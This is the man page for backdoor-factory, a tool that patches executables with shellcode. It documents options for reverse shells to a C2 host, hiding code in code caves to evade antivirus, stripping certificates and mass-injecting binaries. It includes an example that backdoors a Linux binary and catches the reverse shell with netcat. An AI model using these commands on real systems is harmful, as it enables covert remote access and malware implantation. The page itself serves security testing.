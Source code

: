 % BACKDOOR-FACTORY(1) Backdoor-Factory Man Page
% Philippe Thierry
% May 2017
# NAME
backdoor-factory - 

# SYNOPSIS
**backdoor-factory [options]**


# DESCRIPTION
**backdoor-factory** patch executable binaries with user desired
shellcode and continue normal execution of the prepatched state.

This tool is for security professionals and researchers only.

# OPTIONS:
**-h**, **--help**
  show this help message and exit

**-f FILE**, **--file=FILE**
  File to backdoor

**-s SHELL**, **--shell=SHELL**
  Payloads that are available for use. Use 'show' to see payloads.

**-H HOST**, **--hostip=HOST**
  IP of the C2 for reverse connections.

**-P PORT**, **--port=PORT**
  The port to either connect back to for reverse shells or to listen on for bind shells

**-J**, **--cave_jumping**
  Select this options if you want to use code cave jumping to further hide your shellcode in the binary.

**-a**, **--add_new_section**
  Mandating that a new section be added to the exe (better success) but less av avoidance

**-U SUPPLIED_SHELLCODE**, **--user_shellcode=SUPPLIED_SHELLCODE**
  User supplied shellcode, make sure that it matches the architecture that you are targeting.

**-c**, **--cave**
  The cave flag will find code caves that can be used for stashing shellcode. This will print to all the code caves of a specific size.The -l flag can be use with this setting.

**-l SHELL_LEN**, **--shell_length=SHELL_LEN**
  For use with -c to help find code caves of different sizes

**-o OUTPUT**, **--output-file=OUTPUT**
  The backdoor output file

**-n NSECTION**, **--section=NSECTION**
  New section name must be less than seven characters

**-d DIR**, **--directory=DIR**
  This is the location of the files that you want to backdoor. You can make a directory of file backdooring faster by forcing the attaching of a codecave to the exe by using the -a setting.

**-w**, **--change_access**
  This flag changes the section that houses the codecave to RWE. Sometimes this is necessary. Enabled by default. If disabled, the backdoor may fail.

**-i**, **--injector**
  This command turns the backdoor factory in a hunt and shellcode inject type of mechanism. Edit the target settings in the injector module.

**-u SUFFIX**, **--suffix=SUFFIX**
  For use with injector, places a suffix on the original file for easy recovery

**-D**, **--delete_original**
  For use with injector module.  This command deletes the original file.  Not for use in production systems.
  (Author not responsible for stupid uses.)

**-O DISK_OFFSET**, **--disk_offset=DISK_OFFSET**
  Starting point on disk offset, in bytes. Some authors want to obfuscate their on disk offset to avoid reverse engineering, if you find one of those files use this flag, after you find the offset.

**-S**, **--support_check**
  To determine if the file is supported by BDF prior to backdooring the file. For use by itself or with verbose. This check happens automatically if the backdooring is attempted.

**-M**, **--cave-miner**
  Future use, to help determine smallest shellcode possible in a PE file

**-q**, **--no_banner**
  Kills the banner.

**-v**, **--verbose**
  For debug information output.

**-T IMAGE_TYPE**, **--image-type=IMAGE_TYPE**
  ALL, x86, or x64 type binaries only. Default=ALL

**-Z**, **--zero_cert**
  Allows for the overwriting of the pointer to the PE certificate table effectively removing the certificate from the binary for all intents and purposes.

**-R**, **--runas_admin**
  EXPERIMENTAL Checks the PE binaries for 'requestedExecutionLevel level="highestAvailable"'. If this string is included in the binary, it must run as system/admin. If not in Support Check mode it will attmept to patch highestAvailable into the manifest if requestedExecutionLevel entry exists.

**-L**, **--patch_dll**
  Use this setting if you DON'T want to patch DLLs. Patches by default.

**-F FAT_PRIORITY**, **--fat_priority=FAT_PRIORITY**
  For MACH-O format. If fat file, focus on which arch to patch. Default is x64. To force x86 use -F x86, to force both archs use -F ALL.

**-B BEACON**, **--beacon=BEACON**
  For payloads that have the ability to beacon out, set the time in secs

**-m PATCH_METHOD**, **--patch-method=PATCH_METHOD**
  Patching methods for PE files, 'manual','automatic', replace and onionduke

**-b SUPPLIED_BINARY**, **--user_malware=SUPPLIED_BINARY**
  For onionduke. Provide your desired binary.

**-X**, **--xp_mode**
  Default: DO NOT support for XP legacy machines, use -X to support XP. By default the binary will crash on XP machines (e.g. sandboxes)

**-A**, **--idt_in_cave**
  EXPERIMENTAL By default a new Import Directory Table is created in a new section, by calling this flag it will be put in a code cave.  This can cause bianry failure is some cases. Test on target binaries first.

**-C**, **--code_sign**
  For those with codesigning certs wishing to sign PE binaries only. Name your signing key and private key signingcert.cer and signingPrivateKey.pem repectively in the certs directory it's up to you to obtain signing certs.

**-p**, **--preprocess**
  To execute preprocessing scripts in the preprocess directory

# EXAMPLES

Example of cavecoding an ELF binary, by integrating a remote shell access
through a remote TCP listener (e.g. netcat):

backdoor-factory -f /usr/bin/dolphin -H 172.16.0.15 -P 8080 -s reverse_shell_tcp

On the host behind the IP 172.16.0.15, start netcat in listen mode:

$ netcat -l 172.16.0.15 8080

On the target, start the backdoored binary:
./backdoored/dolphin

Now, on the host 172.16.0.15, just use your shell.


# HISTORY
May 2017, Originally compiled by Philippe Thierry (phil at reseau-libre dot
com)
